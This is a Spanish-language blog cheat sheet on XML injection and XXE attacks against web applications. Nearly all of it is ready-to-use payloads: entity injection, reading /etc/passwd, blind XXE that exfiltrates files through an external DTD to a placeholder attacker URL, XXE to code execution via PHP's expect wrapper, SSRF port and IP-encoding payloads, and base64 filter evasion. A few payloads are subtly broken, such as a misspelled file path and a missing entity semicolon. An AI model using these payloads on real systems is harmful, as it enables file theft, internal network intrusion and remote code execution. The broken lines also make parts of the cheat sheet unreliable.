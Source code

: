 ```yaml
---
title: "XML Injection Cheat Sheet"
layout: post
date: 2022-05-17 15:00
image: /assets/images/xmli.png
headerImage: true
tag:
- web
- hacking
- xml
- cheat-sheet
category: blog
description: Técnica de XML Injection
---
```


# XML Injection

Consulta normal
```
/example.php?xml=<test>hacker</test>
```

Consulta vulnerada
```
/example.php?xml=<!DOCTYPE foo [<!ENTITY xmli "testing">]><test>&xmli;</test>
```

**IMPORTANTE encodear los carácteres de la consulta**

# XML eXternal Entities - XXE

Es posible indicarle al parser XML un archivo externo para poder leerlo.
```xml
<!ENTITY name SYSTEM "URI">
```

Ejemplo
```xml
<!DOCTYPE message [
	...
	<!ENTITY xxefile SYSTEM "file:///etc/password">
]>
<message>
	<body>&xxefile;</body>
</message>
```

Petición
```xml
../example.php?xml=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>
```

# Blind XXE Injection

En este caso es algo más complejo ya que el sistema tiene que tener acceso o visibilidad con el sistema del atacante.

La base de está vulnerabilidad está en la posibilidad de realizar peticiones por DTDs externos. Una manera simple de realizar una petición sería la siguiente:

exfill.dtd
```xml
<!ENTITY % file SYSTEM []"file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://[url atacante]/?x=%file;'>">
%eval;
%exfil;
```

Petición

```xml
../example1.php?xml=<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://[URL atacante]/exfil.dtd"> %xxe;]><test>hola</test>
```

# XXE to RCE - Remote Code Execution

Para poder hacer esto la aplicación tiene que tener habilitado el módulo ‘expect’ de PHP.

```xml
/example.php?xml=<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "expect://PWD">]>
<test>&xxe</test>
```

Adicionalmente se podría lograr con otro métodos, como por ejemplo el uso de la clase de **Java XMLDecoder** en el lado del servidor.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/04b2522f-d817-4aa7-928f-92b228ffac9d/Untitled.png)

# XXE + SSRF

## Server-side Request Forgery

Esta vulnerabilidad se da cuando la máquina vulnerada puede hacer peticiones a otras máquinas internas de la organización, mostrando de forma total o parcial el recurso en la web.

También permite mapear servicios existentes en la red del sistema.

## Como explotar

Una vez se ha identificado una inclusión de ficheros dentro de una aplicación web se puede intentar utilizar esta para acceder a recursos internos de la organización.

### Ejemplo vulnerable

```xml
vulnerable.com/index.php?url=index.php
```

### Payloads

-   http://[..]:80/
-   http://[..]:25/ SMTP
-   http://[..]:22/ SSH
-   http://[..]:3128/ SQUID
-   [http://2130706433/](http://2130706433/) = [http://127.0.0.1](http://127.0.0.1)
-   [http://3232235521/](http://3232235521/) = [http://192.168.0.1](http://192.168.0.1)

# Evasión de filtros

## Parameter Entitites + CDATA + DTD

## Uso de PHP + Base64

Si convertimos el contenido de un archivo a base64 podemos imprimir carácteres especiales que no son imprimibles mediantes XML.

```xml
php://filter/read=**convert.base64-encode**/resource=/path/to/config.php
```

# Recursos externos

## **Ampliación general sobre la explotación de XXE:**

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## Ampliación general sobre la explotación de SSRF:

[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Requ)

## Tipos de inyecciones XXE:

[Lista de payloads para inyecciones XXE (XML External Entity)](https://www.hackplayers.com/2019/12/lista-de-payloads-para-inyecciones-xxe.html)